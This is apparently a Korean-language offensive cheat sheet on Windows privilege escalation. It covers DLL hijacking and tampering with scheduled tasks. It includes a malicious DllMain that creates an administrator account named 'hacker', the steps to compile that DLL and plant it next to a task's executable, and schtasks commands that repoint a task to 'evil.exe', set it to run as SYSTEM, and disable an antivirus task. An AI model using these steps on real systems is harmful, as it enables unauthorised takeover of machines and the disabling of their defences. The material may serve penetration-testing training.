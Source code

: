 ### 🔗 DLL 하이재킹

```cmd
:: 1. 스케줄된 작업의 실행 파일 확인
schtasks /query /tn "VulnerableTask" /fo LIST /v | findstr "Task To Run"

:: 2. 실행 파일이 로드하는 DLL 확인 (Dependency Walker나 Process Monitor 사용)
:: 또는 일반적인 DLL 하이재킹 대상들 확인

:: 3. 실행 파일과 같은 디렉토리에 악성 DLL 배치
:: 예: version.dll, dwmapi.dll, comctl32.dll 등

:: 4. 악성 DLL 생성 (C++ 코드)
/*
#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("net user hacker password123 /add & net localgroup administrators hacker /add");
    }
    return TRUE;
}
*/

:: 5. DLL 컴파일
gcc -shared -o version.dll dllmain.c -Wl,--out-implib,version.lib

:: 6. DLL을 실행 파일 디렉토리에 배치
copy version.dll "C:\Scripts\version.dll"

:: 7. 스케줄된 작업 실행 대기
```

### 📅 작업 스케줄 조작

```cmd
:: 1. 기존 작업의 스케줄 변경 (권한이 있는 경우)
schtasks /change /tn "VulnerableTask" /st 00:01

:: 2. 작업을 즉시 실행되도록 변경
schtasks /change /tn "VulnerableTask" /sc once /st %TIME%

:: 3. 작업의 실행 파일 경로 변경 (권한이 있는 경우)
schtasks /change /tn "VulnerableTask" /tr "C:\Windows\Temp\evil.exe"

:: 4. 작업의 실행 사용자 변경
schtasks /change /tn "VulnerableTask" /ru SYSTEM

:: 5. 작업 비활성화 (방해 요소 제거)
schtasks /change /tn "AntivirusTask" /disable
```
